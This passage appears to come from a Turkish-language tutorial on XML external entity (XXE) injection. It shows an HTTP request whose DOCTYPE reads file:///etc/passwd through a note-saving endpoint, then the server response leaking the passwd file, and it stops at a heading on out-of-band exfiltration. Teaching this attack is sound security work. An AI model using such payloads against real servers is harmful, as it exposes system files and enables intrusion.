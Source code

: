 ```
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8
Host: myserver.com

<?xml version=”1.0″ ?>
$<!DOCTYPE foo [<!ENTITY xxe SYSTEM “file:///etc/passwd” >]>$
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed &xxe;</body>
</note>
```
Server, gecerli verinin form tarafinda dolduruldugunu varsayiyor, XML verisini backend tarafinda kaydetmeden once islemeye basliyor, ve islenmis veriyi orjinal verinin yaninda kullaniciya donduruyor.Bu durumda **/etc/passwd** icerigi gosterilmis durumda.

```
HTTP/1.1 200 OK
Content-Type: text/xml;charset=UTF-8
Server: Microsoft-IIS/7.5
Date: Sat, 19 Apr 2019 13:08:49 GMT
Connection: close
Content-Length: 1039

Note saved! From Bob to Alice about “Sync Meeting” at 1200: Meeting time has changed
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
..snip…
```
* * *
## 3. BANDIN DISINDAN SIZMAK
